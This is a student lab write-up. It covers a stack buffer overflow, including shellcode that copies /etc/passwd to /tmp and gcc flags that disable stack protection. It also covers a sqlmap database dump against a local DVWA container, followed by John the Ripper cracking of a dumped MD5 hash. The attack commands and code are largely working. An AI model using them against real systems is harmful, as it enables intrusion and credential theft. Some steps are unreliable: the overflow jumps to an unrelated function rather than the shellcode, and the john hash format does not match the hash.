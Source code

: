 # Lab #1,22119054, Luu Trong Dung, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
**Question 1**: 
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  

**Answer 1**:
## 1. Create a text file named `bof.c`:
```sh
#include <stdio.h>
#include <string.h>
void redundant_code(char *p)
{
    char local[256];
    strncpy(local, p, 20);
    printf("redundant code\n");
}
int main(int argc, char *argv[])
{
    char buffer[16];
    strcpy(buffer, argv[1]);
    return 0;
}
```

## 2. Create a text file named `shellcode.asm`:
```sh
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80
```

## 3.Compile asm program and C program to executable code. 
Step 1: First compile the code
before compile must run docker
```sh
docker run -it --privileged -v 'E:\Learn\Secure\KT:/home/seed/seclabs' securelabs
```
compile C program
```sh
gcc -g bof.c -o bof.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```
Compile asm program 
```sh
nasm -f elf32 shellcode.asm -o shellcode.o
```
linking asm
```sh
ld -o shellcode shellcode.o
```
## 4.Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 

Step2: insert the compiled file bof.out into gdb to see the address of the redundant_code() function and record the address
```sh
gdb -q bof.out
```
save address of redundant_code: 0x0804846b
```sh
disas redundant_code
```
![](./images/Screenshot%202024-10-21%20083428.png)


Step 3: Exit the GDB and start the attack by inserting the address of the function that was saved in the upper step of Return.
```sh
./bof.out $(python -c "print('a'*20 + '\x6b\x84\x04\x08')")
```

output screenshot (optional)
![](./images/Screenshot%202024-10-21%20084105.png)


# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 
  
## Setup
Step1: Install dvwa and sqlmap

Install dvwa
```sh
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
Install sqlmap
```sh
sudo apt update
sudo apt install sqlmap
```

Step2: next to the browser, type in the URL bar "localhost:80" and log in with (Admin, password)

![](./images/Screenshot%202024-10-21%20094110.png)

Step3: then select sql injection and fill in 1 user ID of any submit, then copy URl 

![](./images/Screenshot%202024-10-21%20094223.png)

Step4: next press f12 to find and save Cockie

![](./images/Screenshot%202024-10-21%20094329.png)

**Question 1**: Use sqlmap to get information about all available databases

**Answer 1**: This command includes the URL and cookie saved in the Setup steps
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=j1jkcruu09uddv6q2jbbc7a125; security=low" --dbs
```

![](./images/Screenshot%202024-10-21%20094903.png)

**Question 2**: Use sqlmap to get tables, users information

**Answer 2**: The figure below contains 2 tables in the DVWA database, User and Guestbook
use sqlmap to get tables 
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=j1jkcruu09uddv6q2jbbc7a125; security=low" --dbs --tables
```
![](./images/Screenshot%202024-10-21%20095522.png)

use sqlmap to get infomation of users table in database dvwa
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=j1jkcruu09uddv6q2jbbc7a125; security=low" -D dvwa -T users --columns
```
![](./images/Screenshot%202024-10-21%20100555.png)


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit

**Answer 3**:

```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=j1jkcruu09uddv6q2jbbc7a125; security=low" -D dvwa -T users --dump   
```
With the above command we get the data in the users table

![](./images/Screenshot%202024-10-21%20102134.png)

Retrieve the hashed password of any user
```sh
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hashes.txt
```

Install John
```sh
sudo apt update
sudo apt install john -y
```

Use John decrypt hashes password save in hashes.txt, with format=md5
```sh
john --format=md5crypt hashes.txt
```
Show pass
```sh
john --show hashes.txt
```
**Conclusion:** In this section, you'll learn how to use basic commands with SQLMAP and John Crypto.


